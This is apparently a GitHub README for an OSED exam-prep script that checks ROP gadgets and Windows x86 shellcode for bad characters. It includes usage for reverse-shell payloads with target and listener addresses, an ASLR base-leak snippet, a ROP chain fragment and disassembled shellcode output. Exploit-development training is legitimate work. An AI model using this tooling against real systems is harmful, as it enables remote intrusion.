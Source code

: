# OSEP_OSED_TOOLS

## OSED_exploit.py

### Overview

This script combines [ommadawn46's win-x86-shellcoder](https://github.com/ommadawn46/win-x86-shellcoder) and the RopChain class from [@Tan90909090's OSED blog post](https://tan.hatenadiary.jp/entry/2023/10/30/020524) to automate the process of checking bad characters in ROP gadgets and shellcode.

## Prerequisites

This script uses Python3 ,[Keystone-Engine](https://pypi.org/project/keystone-engine/) and [Capstone](https://pypi.org/project/capstone/) (tested with capstone-5.0.1-py3-none-win32.whl ) to assemble and  disassemble Shellcode respectively.

## Usage
```sh
./exploit_script.py -t <target_ip> -li <listener_ip> -lp <listener_port> [-d]
```

- `-t, --target`: Specifies the target IP address or hostname.
- `-li, --ipaddress`: IP address where your listener is running (for reverse shell payloads).
- `-lp, --port`: Listening port on which your listener is running.
- `-d, --debug`: Inserts an `int3` instruction in the shellcode for debugging purposes.

If the exploit requires you to leak base addresses to Bypass ASLR, uncomment:
```python
function_addr = leak_BaseAddr()
baseAddr = parseAddr(function_addr) - 0x1e70
def C(rop_address):
     " Converts preferred address of rop address to ASLR randomized address based on dllBase"
     return (baseAddr + (rop_address  - prefaddr))  
```

Your RopChain should look something like this:
```python
ropchain = RopChain(badchars)
		
# ROPCHAIN
ropchain.append(C(0x10154112))			# push esp ; inc ecx ; adc eax, 
...
```

When you run the exploit, the script will alert you when bad characters are present in your shellcode/ropchain.

```sh
python OSED_exploit.py -t 127.0.0.1 -li 127.0.0.1 -lp 4444 
...
[ ] 50                           : push eax
[x] 687f000001 : push 0x100007f
[ ] 66b8115c                     : mov ax, 0x5c11
[ ] c1e010                       : shl eax, 0x10
...
```

Remember to update `badchars`!
```
badchars = b"\x00\x3d\x0d\x0a\x25\x26"
```


## Disclaimer